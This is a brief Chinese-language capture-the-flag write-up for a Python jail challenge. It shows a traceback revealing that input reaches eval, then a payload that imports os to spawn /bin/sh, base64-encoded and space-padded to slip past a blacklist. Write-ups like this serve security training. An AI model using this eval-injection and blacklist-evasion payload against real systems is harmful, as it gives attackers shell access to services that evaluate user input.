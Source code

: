 #解法
嘗試隨意輸入
'''
>>> aa
Traceback (most recent call last):
  File "jail1.py", line 49, in <module>
    data = eval(data)
  File "<string>", line 1, in <module>
NameError: name 'aa' is not defined
'''
發現是eval，變可以嘗試躲過黑名單輸入
`__import__('os').system('/bin/sh')`
躲過 = 可以直接補空白
"X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJy9iaW4vc2gnKSAg".decode('base64')
